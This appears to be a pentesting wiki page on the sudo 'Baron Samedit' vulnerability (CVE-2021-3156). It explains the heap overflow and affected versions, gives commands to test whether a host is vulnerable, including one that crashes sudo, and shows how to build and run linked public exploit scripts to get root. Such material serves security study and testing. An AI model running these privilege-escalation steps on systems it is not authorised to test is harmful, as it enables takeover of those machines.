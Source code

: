 ```yaml
---
description: CVE-2021–3156
---
```


# Baron Samedit

## Theory

The "Sudo Baro Samedit" is heap buffer overflow exploit allowing any user to escalate privileges to root. No misconfigurations required, this exploit works with the default settings, for any user regardless of Sudo permissions.

The vulnerability was patched, but it didn’t update the version number for sudo or any other binary. So it’s not possible to tell definitively if a version if vulnerable or not just by version number.It can affects any unpatched version of the sudo program from **1.8.2–1.8.31p2** and **1.9.0–1.9.5p1**

## Practice

{% tabs %}
{% tab title="Enumeration" %}
To check the exploitability of sudo, you may run the following commands. If it's returns the `sudoedit: /: not a regular file` error message, then it’s vulnerable. If it returns the sudoedit usage, it’s not.

```bash
sudoedit -s /
```

Or with the following command, if the system is vulnerable it will overwrite the heap buffer and crash the process:

```bash
sudoedit -s '\' $(python3 -c 'print("A"*1000)')
```
{% endtab %}

{% tab title="Exploit" %}
We can use the [Sudo Baron Samedit Exploit](https://github.com/worawit/CVE-2021-3156) made by worawit. For Linux distributions that glibc has tcache support and enabled (CentOS 8, Ubuntu >= 17.10, Debian 10) we can use exploit\_nss.py:

```bash
python3 exploit_nss.py
```

For Linux distribution that glibc has no tcache support:

```
python exploit_nss_xxx.py #for specific version
python exploit_userspec.py #Last try
```

Alternativly, we may use the [Sudo Baron Samedit Exploit](https://github.com/blasty/CVE-2021-3156) made by blasty (Ubuntu 18.04.5, Ubuntu 20.04.1, Debian 10.0)\
On the vulnerable host we can do:

```
# Make file from source
make

# Replace 0 by your OS target
./sudo-hax-me-a-sandwich 0 

```
{% endtab %}
{% endtabs %}

### References

{% embed url="https://datafarm-cybersecurity.medium.com/exploit-writeup-for-cve-2021-3156-sudo-baron-samedit-7a9a4282cb31" %}
